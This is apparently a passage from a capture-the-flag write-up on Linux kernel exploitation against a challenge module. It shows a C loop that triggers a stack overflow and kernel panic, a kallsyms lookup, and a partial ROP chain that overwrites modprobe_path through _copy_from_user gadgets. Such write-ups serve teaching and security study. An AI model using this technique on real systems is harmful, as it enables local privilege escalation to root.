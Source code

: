     Unique gadgets found: 1113512

We also need to redo the state saving as we do in KernelROP... and at the end of our payload we need to restore it.
I will use again modprobe_path overwrite because is my favorite technique. I will use the same shitty c code I used with last post.

    for (int i=1; i<=100;i++){
    	unsigned long payload[i];
    	ssize_t w = write(fd, payload, sizeof(payload));
    	printf("Cycle: %d\n",i);
    }

And we got:

    Cycle: 1
    Cycle: 2
    Cycle: 3
    Cycle: 4
    Cycle: 5
    Cycle: 6
    Cycle: 7
    Cycle: 8
    [    2.906202] Knock, and the door will be opened unto you.
    [    5.890603] Kernel panic - not syncing: stack-protector: Kernel stack is corrupted in: device_write+0x47/0x50 [chall]
    [    5.891607] CPU: 0 PID: 158 Comm: exploit Tainted: G           OE     5.19.0-43-generic #44~22.04.1-Ubuntu



If we inspect gadgets we are not that lucky as we were on Kernel Rop, where we have a ropchain like this

    -cookie
    -pop reg1
    -/tmp/m in hex
    -pop reg2
    -modprobe address
    -mov qword ptr [reg2], reg1 ; ret

This time we have to use `_copy_from_user`, this function has 3 parameters respectively: 


 1. RDI = modprobe_path address
 2. RSI = "/tmp/m" string
 3. RDX = length of string + 1

So now we need the offset of `_copy_from_user`, easy to get
 

    cat /proc/kallsyms |grep "T _copy_from_user"

And three gadget : pop rdi, pop rsi and pop rdx. So we get something like this:

    unsigned long pop_rdi = kbase + 0x1d675;
    unsigned long pop_rsi = kbase + 0x6ff0c;
    unsigned long pop_rdx = kbase + 0x7baf4a;
    unsigned long copy_from = kbase + 0x6e5d00;
    unsigned long modprobe = kbase + 0x208C500;
    unsigned long kpti = kbase + 0x10010F0;
